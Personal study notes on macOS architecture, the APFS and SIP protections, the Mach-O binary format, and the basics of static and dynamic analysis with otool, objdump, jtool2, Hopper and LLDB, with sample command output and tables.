# MacOS Architecture
## Introduction

### 1. **Application Layer**
- **AppKit**: Facilitates the creation of desktop application interfaces, handling events, drawing operations, and user interface elements like buttons and text fields. For example, when you create a new document in TextEdit, AppKit is responsible for displaying the window, text editing area, and menu options.
- **Notification Center**: Manages the centralized delivery of notifications to the user. For example, when you receive a new email, Notification Center displays a pop-up message or updates an icon badge.
- **Siri**: Allows voice interaction with applications and system functions. For example, you can ask Siri to send a message, set reminders, or launch applications.
- **Sharing & Full Screen**: Supports easy content sharing to other applications or services and manages applications in full-screen mode. For example, using the Share button in Safari to post a webpage link to Twitter.
- **Auto Layout**: Dynamically calculates the size and position of all the views in your window based on constraints. For example, ensuring a button stays at the bottom right corner of a window, regardless of window size changes.
- **Popovers & Configuration**: Handles transient views that appear above other content, and manages application configurations. For example, a settings popover in Mail that allows adjusting mail sorting preferences.

### 2. **Media Layer**
- **AV Foundation**: Manages and plays audio-visual media. For example, playing a video file in QuickTime Player.
- **Core Animation**: Provides fluid animation for user interface elements. For example, smooth transitions when you minimize a window or open Mission Control.
- **Core Audio**: Handles audio operations system-wide. For example, managing audio streams and volume control across all running applications.
- **Core Image**: Used for high-performance image processing, which allows quick filtering and effects in applications like Photos.
- **Core Text**: Manages text layout and font rendering; crucial for reading and editing text in any app that displays large amounts of text.
- **Metal**: Optimizes graphics and compute operations by leveraging the GPU. For example, accelerating graphics rendering in games or graphical applications.

### 3. **Core Services**
- **Address Book**: Stores and retrieves user contact information. For example, when a user saves a new contact in the Contacts app, it is stored in the Address Book database.
- **Core Foundation**: Provides fundamental data types and collections, like strings and arrays, crucial for app development. For example, managing data structures in any app.
- **Quick Look**: Allows users to preview documents or images quickly without opening them in a dedicated app, like previewing PDF files in Finder.
- **Social**: Provides frameworks to integrate with social media platforms. For example, sharing images directly from Preview to Facebook.
- **Webkit**: Powers the Safari browser; handles HTML content rendering and JavaScript execution.

### 4. **Core OS**
- **Accelerate**: Optimizes large-scale mathematical computations, improving performance in scientific and financial software.
- **Directory Services**: Manages user accounts and permissions. For example, when logging in, Directory Services verifies user credentials.
- **Disk Arbitration**: Manages access to disk volumes to prevent file system corruption. For example, it ensures that a disk is not ejected while files are being written to it.

### 5. **Kernel & Device Drivers**
- **BSD**: Provides networking, security, and file system support. For example, BSD sockets are used for network communication in apps like Mail and Safari.
- **Mach**: The core around which macOS is built, handling low-level tasks like memory management and process scheduling. For example, Mach allocates memory when you open an app and schedules CPU time for it to run.
- **Networking & Security**: Includes components that handle secure network communications and data encryption. For example, establishing encrypted connections over Wi-Fi.
 - **File System Management**: The file system manages the storage of data in an organized manner so that it can be easily accessed, modified, and managed. It handles operations such as reading, writing, creating, and deleting files and directories.

## System Directories

#### POSIX Directories
- **`/bin, /usr/bin`**: Contains essential user-executable binaries like shell commands and utilities.
- **`/sbin, /usr/sbin`**: Holds system administration binaries essential for system maintenance and operations.
- **`/usr/lib`**: Stores dynamic libraries (.dylibs) that provide functionality for multiple applications.
- **`/tmp`**: A temporary directory, cleared at reboot, with a sticky bit set to prevent deletion of files by non-owners.
- **`/var`**: Includes logs, configuration files, and user-specific temporary files. Root's home directory is `/var/root`.

#### macOS Directories
- **`/Applications`**: Standard location for user-installed applications accessible to all users.
- **`/System`**: Contains macOS’s core components, like system files and libraries, protected by System Integrity Protection (SIP).
- **`/Users`**: Home directories for all users, with personal files, settings, and documents.
- **`/Library`**: Stores system-wide application support files and libraries.
- **`/System/Applications` and `/System/Cryptexes/App/System/Applications`**: Host core system applications, with certain apps in a secure cryptex for added security.

#### Launch Agents and Daemons
- **`/System/Library/LaunchDaemons`, `/System/Library/LaunchAgents`**: System-level agents and daemons that execute automatically.
- **`/Library/LaunchDaemons`, `/Library/LaunchAgents`**: For third-party daemons and agents that run at startup or login.
- **`~/Library/LaunchAgents`**: User-specific agents that auto-run at user login.

#### Application Data and Support
- **`/Library/Application Support`**: Contains application support files and data for applications running as root.
- **`~/Library/Application Support`**: User-specific application support files and data.
- **`~/Library/Containers`**: Sandboxed applications are stored here, with strict filesystem access limitations.

#### Frameworks and Extensions
- **`/System/Library/Frameworks`, `/System/Cryptexes/OS/System/Library/Frameworks`**: Home to system frameworks used by applications.
- **`/System/Library/PrivateFrameworks`, `/System/Cryptexes/OS/System/Library/PrivateFrameworks`**: Contains private frameworks not for public use, restricted from Mac App Store applications.
- **`/Library/Extensions`, `/System/Library/Extensions`**: Locations for kernel extensions (KEXTs), including third-party extensions.

#### Special and Security Directories
- **`/Library/PrivilegedHelperTools`**: Where third-party daemons that need root privileges reside.
- **`/usr/bin`, `/usr/sbin`, `/bin`, `/sbin`**: Core system binaries for both user commands and system administration.
- **`/private`**: Contains sensitive directories such as `/private/etc`, `/private/var`, and `/private/tmp` that manage configuration, variable data, and temporary files.

#### Kernel and Kernel Extensions
- **`/System/Library/Kernels/kernel`**: The location of the macOS kernel.
- **`/System/Library/Extensions`, `/System/Cryptexes/OS/System/Library/Extensions`**: Directories for Apple's kernel extensions.

## Apple Properity File System (APFS)
The Apple File System (`APFS`) is an advanced file system introduced by Apple with macOS High Sierra in 2017. It was designed to replace the older Hierarchical File System Plus (`HFS+`) to better accommodate the modern storage technologies and to enhance performance, reliability, and scalability. `APFS` operates on the concept of containers and volumes. A single `APFS` container can house multiple volumes that share the container's free space. Volumes under `APFS` are flexible and can grow and shrink dynamically, unlike traditional partitions. This adaptability is crucial for devices with limited storage capacities like mobile devices.

- **Check disk:**
```
diskutil list
```

- **Output:**
```
/dev/disk0 (internal, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      GUID_partition_scheme                        *500.3 GB   disk0
   1:                        EFI EFI                     209.7 MB   disk0s1
   2:                 Apple_APFS Container disk1         500.1 GB   disk0s2

/dev/disk1 (synthesized):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      APFS Container Scheme -                      +500.1 GB   disk1
                                 Physical Store disk0s2
   1:                APFS Volume Macintosh HD            250.4 GB   disk1s1
   2:                APFS Volume Preboot                 20.5 MB    disk1s2
   3:                APFS Volume Recovery                1.0 GB     disk1s3
   4:                APFS Volume VM                      20.5 GB    disk1s4
```
- **`/dev/disk0`**: This represents the physical disk. `disk0` is usually the primary hard drive.
   - `GUID_partition_scheme`: The partition layout used, suitable for both Intel-based and ARM-based Macs.
   - `EFI`: A small partition that contains boot files.
   - `Apple_APFS Container disk1`: An `APFS` container that spans nearly the entire disk.

- **`/dev/disk1` (synthesized)**: This is the `APFS` container synthesized view, showing volumes within the container.
   - `APFS Container Scheme`: Shows that `disk1` is an APFS container.
   - `Physical Store disk0s2`: Indicates that this container is located on `disk0s2`.
   - `APFS` Volumes (`Macintosh HD`, `Preboot`, `Recovery`, `VM`): These are logical volumes within the `APFS` container, each serving different purposes like system storage, boot management, system recovery, and virtual memory respectively.

## System Volume Protection
`macOS` leverages several robust mechanisms to safeguard its core system files, primarily through System Integrity Protection (`SIP`), also known as rootless mode. `SIP`'s primary function is to prevent modifications to crucial system files and directories, even by the superuser (root).

### System Volume Protections in macOS

macOS employs robust mechanisms like System Integrity Protection (SIP), also known as rootless mode, to protect its core system files. SIP's primary role is to prevent unauthorized modifications to critical system files and directories, even by the superuser (root).

##### Using `ls` with SIP Protection Flags
Using the `ls -lO` command can reveal which directories are protected by SIP:
- **Check directories are protected by SIP:**
```bash
user@mac ~ % ls -lO /
```
**Output:**
```
total 0
drwx------  10 root  wheel  restricted,hidden 320 Oct 18 05:36 System
drwxr-xr-x  39 root  wheel  restricted,hidden 1248 Oct 18 05:36 bin
drwxr-xr-x  65 root  wheel  sunlnk            2080 Dec  2 03:26 Library
drwxr-xr-x  14 root  admin  sunlnk             448 Dec  5 08:28 Applications
drwxr-xr-x   5 root  admin  sunlnk             160 Dec  2 02:40 Users
drwxr-xr-x   4 root  wheel  hidden             128 Dec 12 03:34 Volumes
```

The `restricted` flag denotes that the directory is protected under SIP, preventing any modifications. The `sunlnk` and `hidden` flags indicate directories with special attributes but not necessarily SIP protection.

##### Using `diskutil` to Explore APFS Configurations

**Command:**
```bash
diskutil apfs list
```

**Output:**
```bash
APFS Container (1 found)
|
+-- Container disk1
    APFS Container Reference:     disk1
    Size (Capacity Ceiling):      500 GB
    Capacity In Use By Volumes:   150 GB (30% used)
    Capacity Not Allocated:       350 GB (70% free)
    |
    +-> Volume disk1s1
        Name:                      Macintosh HD - Data
        Role:                      Data
        Mount Point:               /System/Volumes/Data
        Capacity Consumed:         100 GB
        FileVault:                 No
    |
    +-> Volume disk1s2
        Name:                      Preboot
        Role:                      Preboot
        Mount Point:               /System/Volumes/Preboot
        Capacity Consumed:         2 GB
    |
    +-> Volume disk1s4
        Name:                      Macintosh HD
        Role:                      System
        Mount Point:               Not Mounted
        Capacity Consumed:         11 GB
        Sealed:                    Yes
```

- **Data Volume**: User-accessible files, non-critical system files.
- **System Volume**: Core system files, not mounted directly but 

#### Verifying System Integrity and Cryptographic Seals
macOS further secures system integrity through cryptographic seals, which can be checked using `csrutil`:

**Command:**
```bash
csrutil authenticated-root status
```
**Output:**
```bash
Authenticated Root status: enabled
```
This confirms that the system's root volume is cryptographically authenticated, ensuring that the core system files are untouched and secure from alterations.

#### Mounted File System Attributes
**Command:**
```bash
user@mac ~ % mount
```

**Output:**
```
/dev/disk1s4s1 on / (apfs, sealed, local, read-only, journaled)
devfs on /dev (devfs, local, nobrowse)
/dev/disk1s2 on /System/Volumes/Preboot (apfs, local, journaled, nobrowse)
/dev/disk1s6 on /System/Volumes/VM (apfs, local, noexec, journaled, noatime, nobrowse)
/dev/disk1s5 on /System/Volumes/Update (apfs, local, journaled, nobrowse)
/dev/disk1s1 on /System/Volumes/Data (apfs, local, journaled, nobrowse)
map auto_home on /System/Volumes/Data/home (autofs, automounted, nobrowse)
.host:/VMware Shared Folders on /Volumes/VMware Shared Folders (vmhgfs)
```
- **Sealed**: The system volume is cryptographically sealed to prevent tampering.
- **Read-only**: The root volume is mounted as read-only to ensure no changes can be made during normal operation, reinforcing its integrity.
- **Journaled**: This attribute helps protect the integrity of the file system by keeping a continuous log (journal) that tracks changes to the file system.

#### Cryptexes: CRYPTographically-sealed EXtensions
Introduced in macOS Ventura, `Cryptexes` represent a novel approach to handling system updates and security `Cryptexes` are signed disk images that contain system files or applications and can be updated independently of the system.

**Command Checking Cryptexes:**
```bash
user@mac ~ % ls -l /System/Cryptexes
```

**Output:**
```
lrwxr-xr-x  1 root  wheel  42 Oct 18 05:36 App -> ../../System/Volumes/Preboot/Cryptexes/App
lrwxr-xr-x@ 1 root  wheel  41 Oct 18 05:36 OS -> ../../System/Volumes/Preboot/Cryptexes/OS
```

These links show that `Cryptexes` are not traditionally mounted within the regular file system structure visible to the user, highlighting their specialized role and enhanced security measures.

## Firmlinks
`Firmlinks` are a special type of symbolic link used by macOS to seamlessly integrate the read-only system volume with the writable data volume. This allows the operating system to maintain a clear separation between system files (which need to be protected from modifications to ensure system integrity) and user data (which needs to be freely writable by the user).

- Check Firmlinks:
```
cat /usr/share/firmlinks
```
- Output
```
/AppleInternal	AppleInternal
/Applications	Applications
/Library	Library
/System/Library/Caches	System/Library/Caches
/System/Library/Assets	System/Library/Assets
/System/Library/PreinstalledAssets	System/Library/PreinstalledAssets
/System/Library/AssetsV2	System/Library/AssetsV2
/System/Library/PreinstalledAssetsV2	System/Library/PreinstalledAssetsV2
/System/Library/CoreServices/CoreTypes.bundle/Contents/Library	System/Library/CoreServices/CoreTypes.bundle/Contents/Library
/System/Library/Speech	System/Library/Speech
/Users	Users
/Volumes	Volumes
/cores	cores
/opt	opt
/private	private
/usr/local	usr/local
/usr/libexec/cups	usr/libexec/cups
/usr/share/snmp	usr/share/snmp
```

On the left is the directory path on the System volume, and on the right, Is the directory path where it maps on the Data volume.

- Confirm directory with `inode`:
```
# On System volume
ls -li /System/Volumes/Data/usr/

18524916 drwxr-xr-x  4 root  wheel  128 Feb  5 16:51 local
inode -> 18524916
# On the data volume
ls -li /usr

18524916 drwxr-xr-x    4 root  wheel    128 Feb  5 16:51 local
inode -> 18524916
```
## PLIST Files
Convert Binary `plist`:
```
# Convert to xml
plutil -convert xml1 ~/your_plist_binary -o -

# Convert to json
plutil -convert json ~/Library/Preferences/com.apple.screensaver.plist -o -

# Convert to swift
plutil -convert swift ~/Library/Preferences/com.apple.screensaver.plist -o -

# Convert to objective-c
plutil -convert objc ~/Library/Preferences/com.apple.screensaver.plist -o -
```
## Bundles
Bundles are `.app` bundle, but many other executables are also packaged as bundles, such as `.framework` and `.systemextension`.
## Dyld
Extract `dyld-cache`:
```
dyld-shared-cache-extractor /System/Volumes/Preboot/Cryptexes/OS/System/Library/dyld/dyld_shared_cache_{arch} /tmp/libraries
```
# Mach-O File Format

The main 3 parts of `Mach-o` Fiel format:


## Introduction
The `Mach-O` file format is the native executable format for `macOS` and `iOS` operating systems. Standing for Mach Object, the `Mach-O` format supports executable files, shared libraries, dynamically-loaded libraries, and object code for `macOS`. The design of this file format is heavily influenced by its focus on performance and the compatibility with the Mach kernel, which is part of the `XNU` kernel that powers Apple's operating systems.

- Check File:
```
zeyad@azima% file /bin/pwd
/bin/pwd: Mach-O universal binary with 2 architectures: [x86_64:Mach-O 64-bit executable x86_64] [arm64e:Mach-O 64-bit executable arm64e]
/bin/pwd (for architecture x86_64):	Mach-O 64-bit executable x86_64
/bin/pwd (for architecture arm64e):	Mach-O 64-bit executable arm64e
```
## Universal Binaries
Universal binaries, also known as `fat` binaries, are unique to the `Mach-O `format. These binaries contain code for multiple architectures (like `x86_64` and `ARM`) in a single file. This capability allows developers to build applications that can run on different types of hardware without the need for separate executables. The structure of a universal binary is essentially a container that includes multiple `Mach-O` files, each optimized for a specific processor architecture.

## Mach-O Header
The Mach-O header is the starting point of any `Mach-O` file. It contains essential metadata about the file, such as the type of file (`executable`, `object file`, `shared library`), its architecture (`ARM`, `x86_64`, etc.), and the number of load commands. The header plays a crucial role in how the operating system processes and handles the `Mach-O` file during loading and execution.
Dump the `Mach-O` Header information using `otool`
```
otool -arch {x86_64/arm64e} -hv /path_to_binary
```

## Mach-O LOAD Command
Load commands within a `Mach-O` file instruct the loader on how to map the file’s contents into memory. These commands are vital for the dynamic linker to resolve symbols and connect dynamic libraries at runtime. Typical load commands include specifying the entry point of the executable, required dynamic libraries, and segment information such as the location and permissions of different sections of the file, There are around `50` type of load commands, But the most common ones:

1. **LC_SEGMENT_64**: This command is used to define a segment of memory that includes one or more sections. Each segment can contain executable code, data, or other resources needed by the executable or library. This command is specifically for `64-bit` architectures.

2. **LC_LOAD_DYLINKER**: This command specifies the dynamic linker (`dyld`) that the system uses to load and link the shared libraries required by the executable at runtime. This is essential for resolving the dynamic dependencies of the application.

3. **LC_MAIN**: Introduced with the newer `Mach-O` file formats, this command points to the entry point of the main function, replacing the older entry point mechanism used in earlier versions. It specifies where the execution of the program begins.

4. **LC_LOAD_DYLIB**: This command provides the paths to the dynamic libraries (`dylibs`) that the executable depends on. These libraries are loaded by the dynamic linker during the execution of the application.

5. **LC_CODE_SIGNATURE**: This command contains the offset and size of the code signature used by the operating system to verify the integrity and origin of the code in the Mach-O file. This is crucial for security purposes, ensuring that the code has not been tampered with.

- Dump load command with `otool`:
```
otool -lv /path_to_binary
```

- Dump libraries in `LC_LOAD_DYLINKER`:
```
otool -L /path_to_binary
```


## Mach-O Data
The data in `Mach-O` files is organized into segments and sections. Segments are larger chunks of data with specific roles, like containing internal & external functions information, symbol table, executable code or read-only data. Each segment can be further divided into sections that hold smaller, more specific blocks of data. This hierarchical structure allows for efficient data management and access, crucial for performance during execution. 

- Dump all segments and sections using `otool`:
```
otool -m /path_to_binary
```

- Example:
```
Segment __PAGEZERO: 4294967296 (zero fill) 
Segment __TEXT: 32768
	Section __text: 15384
	Section __auth_stubs: 1344
	Section __const: 212
	Section __cstring: 1268
	Section __unwind_info: 212
	total 18420
Segment __DATA_CONST: 16384
	Section __auth_got: 672
	Section __got: 48
	Section __const: 616
	total 1336
Segment __DATA: 16384
	Section __data: 32
	Section __common: 176 (zerofill)
	Section __bss: 336 (zerofill)
	total 544
Segment __LINKEDIT: 32768
total 4295065600
```
The `__PAGEZERO` segment plays a crucial role in security. It sets up a memory area called the zero page at the very start of the address space for each process, but it makes this page completely unusable. The memory protection settings for this page are set to zero, meaning nothing can be read from, written to, or executed on this page. This design helps prevent security flaws, specifically `NULL pointer dereference` vulnerabilities, by ensuring that any attempt to access this low memory area will lead to an error, rather than allowing potentially harmful operations.
### Explaining
| Segment       | Size (Bytes) | Description                                                                 |
|---------------|--------------|-----------------------------------------------------------------------------|
| __PAGEZERO    | 4294967296   | A zero-fill segment that protects against NULL pointer dereferences.        |
| __TEXT        | 32768        | Contains executable code and read-only data.                                |
| > __text      | 15384        | The main body of executable code.                                           |
| > __auth_stubs| 1344         | Stubs for authenticated pointers (part of code signing).                    |
| > __const     | 212          | Read-only data constants.                                                   |
| > __cstring   | 1268         | String literals, stored in a read-only section.                             |
| > __unwind_info | 212        | Information for stack unwinding during exceptions.                          |
| __DATA_CONST  | 16384        | Read-only data that was originally in the __DATA segment.                   |
| > __auth_got  | 672          | Authenticated pointers' global offset table.                                |
| > __got       | 48           | Non-authenticated global offset table for dynamic linking.                  |
| > __const     | 616          | Constants that are now placed in a read-only section for security.          |
| __DATA        | 16384        | Contains mutable data accessed during execution.                            |
| > __data      | 32           | Modifiable data used by the program.                                        |
| > __common    | 176          | Uninitialized data (zero-filled) used for global variables.                 |
| > __bss       | 336          | Uninitialized data that does not occupy space in the file (zero-fill).      |
| __LINKEDIT    | 32768        | Contains raw data like symbol tables and string tables for dynamic linking. |


# MacOS Binary Static Analysis
## Codesign
| Command                   | Example Usage                                              | Explanation                                                                                                                                                             |
|---------------------------|------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **`codesign -d`**         | `codesign -d /Applications/Automator.app`                  | Displays the code signature of the application. Useful for checking basic signature details without any modifications or verbose details.                               |
| **`codesign -dv`**        | `codesign -dv /System/Applications/Automator.app`          | Displays the code signature with verbose information about the application. It provides more detailed insights into the signed application including platform identifiers and signature sizes. |
| **`codesign -dvv`**       | `codesign -dvv /System/Applications/Automator.app`         | Increases the verbosity level further, showing even more detailed information like the authorities under which the app was signed.                                      |
| **`codesign -d --entitlements :-`** | `codesign -d --entitlements :- /System/Applications/Automator.app` | Displays the entitlements in a human-readable XML format. This is crucial for understanding what permissions the application has on a macOS system.                     |

## Objdump
| Command                          | Example Usage                                     | Explanation                                                                                                                                                                                                 |
|----------------------------------|---------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **`objdump -m`**                 | `objdump -m /path/to/binary`                      | Instructs `objdump` to parse the file as a Mach-O file. Use this when you need to analyze Mach-O formatted files specifically.                                                                               |
| **`objdump --dylibs-used`**      | `objdump --dylibs-used /path/to/binary`           | Lists the dynamic libraries (dylibs) that the binary depends on. Useful for understanding external dependencies of an executable or library.                                                                |
| **`objdump -h`**                 | `objdump -h /path/to/binary`                      | Displays the headers of the sections of the Mach-O file. Use this to see detailed information about each section in the file, such as its size and address.                                                  |
| **`objdump --syms`**             | `objdump --syms /path/to/binary`                  | Displays the symbol table of the binary. This is useful for seeing all the symbols used in the file, including functions and variables, which can help with debugging and reverse engineering efforts.        |
| **`objdump --disassemble`**      | `objdump --disassemble /path/to/binary`           | Disassembles the executable sections of the binary. Use this command when you need to analyze the assembly code within the binary for a deeper understanding of its operation.                               |
| **`objdump --full-contents`**    | `objdump --full-contents /path/to/section`        | Dumps the raw contents of specified sections. This is particularly useful when you need to inspect the actual data or code within a section of the binary.                                                   |
| **`objdump --section-headers`**  | `objdump --section-headers /path/to/binary`       | Displays information about the header of each section in the binary. Useful for a quick overview of the section layout and characteristics.                                                                 |
| **`objdump --disassemble-functions=function_name --x86-asm-syntax=intel/att`** | `objdump --disassemble-functions=_main --x86-asm-syntax=intel/att /path/to/binary` | Disassembles a specific function within the binary. Useful when focusing on particular pieces of code for detailed analysis or debugging.                                                                  |


## Jtool2
| Command                        | Example Usage                                           | Explanation                                                                                                                                |
|--------------------------------|---------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------|
| **`jtool2 -l`**                | `jtool2 -l /path/to/binary`                            | Lists all load commands and section details of a Mach-O file. Useful for getting a quick overview of the binary's structure and contents.  |
| **`jtool2 -L`**                | `jtool2 -L /path/to/binary`                            | Displays the dynamic libraries (dylibs) that the binary links against. Essential for understanding external dependencies.                  |
| **`jtool2 -S`**                | `jtool2 -S /path/to/binary`                            | Shows the symbol table of the binary, including both local and external symbols. Valuable for debugging and reverse engineering.           |
| **`jtool2 -v`**                | `jtool2 -v /path/to/binary`                            | Provides verbose output for the given file, including detailed information on the binary's headers, load commands, and more.               |
| **`ARCH=arch jtool2 --sig`**             | `ARCH=x86_64 jtool2 --sig /path/to/binary`                         | Displays the code signature information, including certificate details, hashes, and more. Useful for security analysis.                    |
| **`jtool2 --ent`**             | `jtool2 --ent /path/to/binary`                         | Outputs the entitlements used by the binary in XML format. Crucial for assessing the permissions granted to the application.               |
| **`jtool2 -d`**                | `jtool2 -d /path/to/binary`                            | Dumps disassembled code from the binary. Note that this is primarily intended for ARM binaries and might not fully support other formats.  |
| **`jtool2 --objc`**            | `jtool2 --objc /path/to/binary`                        | Analyzes and outputs Objective-C runtime information, such as classes, methods, and protocols.                                            |
| **`jtool2 --analyze`**         | `jtool2 --analyze /path/to/binary`                     | Performs an in-depth analysis of the binary, providing insights into potential vulnerabilities or unusual patterns in the code.           |
## Hopper
### Lables


- `Address`: This is the hexadecimal address of the label within the binary's memory space. It points to where the label, which can be a function, a variable, or a marker, is located in the disassembled code.
- `Type`: Indicates the nature of the label. Common types include:
	- `S` (Symbol) for named points in the code which could represent functions or markers placed by the compiler or the disassembler.
	- `A` (Array) denoting the beginning of an array data structure.
	- `P` (Procedure) representing the start of a procedure or function.
	- `D` (Data) for locations that are marked to hold data rather than executable code.
- `Name`: This is the name assigned to the label. It could be a name given by the programmer, or it could be a name generated by Hopper based on the label's usage or content. For example:
`__mh_execute_header` typically marks the start of the `Mach-O` header in `macOS` executables.
`_main` is the name conventionally given to the starting point of a C or C++ program.
`printf` and `dyld_stub_binder` suggest imported functions used for printing to the console and dynamic linking, respectively.

### Functions


- `Idx` (Index): This is a sequential number assigned to each procedure for easy reference. It typically starts from 0 and increments by 1 for each procedure discovered in the binary.
- `Name`: The name of the procedure, which can be the one assigned by the programmer or inferred from debugging symbols or imports within the binary. In this case, you have _main, which is typically the entry point for C programs, and printf, a standard C library function for printing formatted output to the console.
- `Block`: Indicates the basic block count within the procedure. A basic block is a straight-line code sequence with no branches in except to the entry and no branches out except at the exit. In the provided image, both _main and printf are part of one basic block.
- `Size`: Represents the size of the procedure in bytes. This tells you how much space the compiled machine code for this procedure occupies. _main is 28 bytes, while printf is 6 bytes.

### Strings


- Readabble Strings extracted from the binary


### Disassembly view


### Graphical View


### Decompiling


### Hex view


### External functions Resolution

- External function `printf`


- Double clicking on `imp___stubs__printf` take us to the pointer:


- Double cliuck on `-printf_ptr` take us to the `__la_symbol_ptr` section, which contains a list of external pointers.


And here where dynamic loader (`dyld`) will populate the address of the external function.

### Useful table for static analysis with hopper
| Feature                                          | Menu Path                                       | Shortcut         | Description                                                                                                                            |
|--------------------------------------------------|-------------------------------------------------|------------------|----------------------------------------------------------------------------------------------------------------------------------------|
| **New**                                          | File > New                                      | Cmd + N          | Creates a new file/workspace in Hopper.                                                                                                |
| **Open**                                         | File > Open...                                  | Cmd + O          | Opens an existing file for disassembling.                                                                                              |
| **Open Recent**                                  | File > Open Recent                              |                  | Provides a submenu to open recently accessed files.                                                                                     |
| **Save**                                         | File > Save                                     | Cmd + S          | Saves the current state of the workspace.                                                                                              |
| **Save As...**                                   | File > Save As...                               | Shift + Cmd + S  | Saves the current workspace as a new file.                                                                                             |
| **Import Types...**                              | File > Import Types...                          |                  | Imports type declarations from another file.                                                                                           |
| **Export Types...**                              | File > Export Types...                          |                  | Exports type declarations to a file.                                                                                                   |
| **Import Types from C-like Header File...**      | File > Import Types from C-like Header File...  |                  | Imports types from a C-like header file to use in disassembly annotations.                                                             |
| **Export Objective-C Header File...**            | File > Export Objective-C Header File...        |                  | Exports an Objective-C header file based on the classes and methods detected in the binary.                                            |
| **Produce Assembly Text File...**                | File > Produce Assembly Text File...            |                  | Generates an assembly listing of the entire binary or selected portion to a text file.                                                 |
| **Produce Assembly For Current Procedure...**    | File > Produce Assembly For Current Procedure...|                  | Outputs the assembly code for the currently selected procedure to a text file.                                                         |
| **Produce Pseudo-Code File For Current Procedure...** | File > Produce Pseudo-Code File For Current Procedure...|                  | Generates pseudo-code for the current procedure and exports it to a file.                                                              |
| **Read Executable to Disassemble...**            | File > Read Executable to Disassemble...        | Shift + Cmd + O  | Opens a dialog to select an executable file specifically for disassembly.                                                              |
| **Read File From DYLD Cache...**                 | File > Read File From DYLD Cache...             |                  | Allows reading and disassembling of binaries directly from the DYLD shared cache.                                                      |
| **Copy**                                         | Edit > Copy                                     | Cmd + C          | Copies the selected content to the clipboard.                                                                                          |
| **Copy Hex String of Selected Bytes**            | Edit > Copy Hex String of Selected Bytes        | Cmd + Shift + C  | Copies the selected bytes as a hexadecimal string to the clipboard.                                                                    |
| **Select All**                                   | Edit > Select All                               | Cmd + A          | Selects all content in the current context or field.                                                                                   |
| **Select Procedure**                             | Edit > Select Procedure                         | Cmd + Shift + A  | Selects the entire procedure (function) that the cursor is currently in.                                                               |
| **Mark as Code**                                 | Modify > Code > Code                            | Cmd + P          | Interprets the selected bytes as executable code.                                                                                      |
| **Mark as Data Array**                           | Modify > Data > Array                           | Cmd + Shift + D  | Marks the selection as a data array, interpreting the bytes as a series of data elements.                                              |
| **Mark as NULL-Terminated C String**             | Modify > Data > NULL-Terminated C String        | Cmd + Shift + A  | Interprets the selected bytes as a NULL-terminated C string.                                                                           |
| **Mark as Unicode String**                       | Modify > Data > Unicode String                  | Cmd + Shift + U  | Marks the selection as a Unicode string, interpreting the bytes as characters in Unicode encoding.                                     |
| **Assemble Instruction...**                      | Modify > Assemble Instruction...                | Cmd + Shift + A  | Opens a dialog allowing you to input and compile assembly instructions to replace existing code at the selection.                      |
| **Go To Address or Symbol...**                   | Navigate > Go To Address or Symbol...           | G                 | Jumps to the inputted address or symbol within the binary.                                                                             |
| **Go To File Offset...**                         | Navigate > Go To File Offset...                 | Shift + G         | Moves to the specified file offset, allowing for precise navigation based on file structure.                                           |
| **Show Segment List...**                         | Navigate > Show Segment List...                 | Cmd + S           | Displays a list of all segments in the binary.                                                                                         |
| **Show Section List...**                         | Navigate > Show Section List...                 | Shift + Cmd + S   | Displays a list of all sections in the binary.                                                                                         |
| **Next Code**                                    | Navigate > Next Code                            | Cmd + C           | Jumps to the next chunk of code in the binary.                                                                                         |
| **Next Data**                                    | Navigate > Next Data                            | Cmd + D           | Jumps to the next data section in the binary.                                                                                          |
| **Next Procedure**                               | Navigate > Next Procedure                       | Cmd + P           | Moves to the next defined procedure or function.                                                                                       |
| **References To Highlighted Word...**            | Navigate > References To Highlighted Word...    | Cmd + R           | Lists all the references to the currently highlighted word in the code.                                                                |
| **Search for Symbol...**                         | Navigate > Search for Symbol...                 | Cmd + F           | Opens a search dialog to quickly find symbols within the binary.                                                                       |
| **Show Control Flow Graph**                      | Window > Show Control Flow Graph                | Space             | Displays the control flow graph for the current procedure.                                                                             |
| **Show Pseudo Code of Procedure**                | Window > Show Pseudo Code of Procedure          | Cmd + Option + P  | Opens the pseudo code representation of the current procedure.                                                                         |
| **Show Hexadecimal Editor**                      | Window > Show Hexadecimal Editor                | Cmd + Option + H  | Opens the hexadecimal view of the binary.                                                                                              |


# MacOS Binary Dynamic Analysis
## Debugging Rules
The rules for debugging applications on macOS;

1. **Debugging Signed Applications with Entitlements**:
   - Applications that are signed and have the `com.apple.security.get-task-allow` entitlement can be debugged by a standard user. This entitlement specifically allows other processes, like debuggers, to attach to the application. Xcode automatically adds this entitlement to apps when they are built for development.

2. **Applications Protected by SIP**:
   - System Integrity Protection (SIP) restricts debugging of system binaries or those signed with hardened runtime unless the target application has the `com.apple.security.get-task-allow` entitlement. To debug such applications, the debugger itself must have the `com.apple.security.cs.debugger` entitlement.

3. **Debugging Non-Protected Applications**:
   - Applications not protected by SIP and without the `com.apple.security.get-task-allow` entitlement can still be debugged if the user runs the debugger as root or authenticates as an admin.

4. **Limitations on Debugging System Binaries or Hardened Runtime Applications**:
   - You cannot debug system binaries or applications signed with hardened runtime as part of Apple's notarization requirements, unless they have the `com.apple.security.get-task-allow` entitlement.

5. **Notarization**:
   - Notarization is an Apple security process for scanning applications for malicious content before distribution. If an app is not notarized, Gatekeeper may block its execution to protect the system.

6. **Disabling SIP**:
   - While disabling SIP would technically allow debugging of any application, it is not recommended. SIP provides critical protections beyond just debugging restrictions, including protecting core system files and preventing unsigned kernel extensions from loading. Disabling SIP significantly weakens macOS security.
## LLDB

### Esssentail Start
| Category | Name | Command | Shortcut | Description |
| --- | --- | --- | --- | --- |
| **Essential Start** | | | | |
| Open Executable | `target create` | `(lldb) target create "./executable"` | | Loads a new executable for debugging. |
| Attach Process | `process attach` | `(lldb) process attach --pid <PID>` | | Attaches the debugger to an existing process by PID. |
| Stop Debugging | `process kill` | `(lldb) process kill` | | Terminates the current debugging session. |
| Go | `process continue` | `(lldb) process continue` | `c` | Continues execution after a breakpoint or pause. |
| Restart | `process launch` | `(lldb) process launch --stop-at-entry` | | Restarts the current debugging session and stops at the entry point. |
| Step Into | `thread step-in` | `(lldb) thread step-in` | `si` | Executes one line or instruction at a time, stepping into functions. |
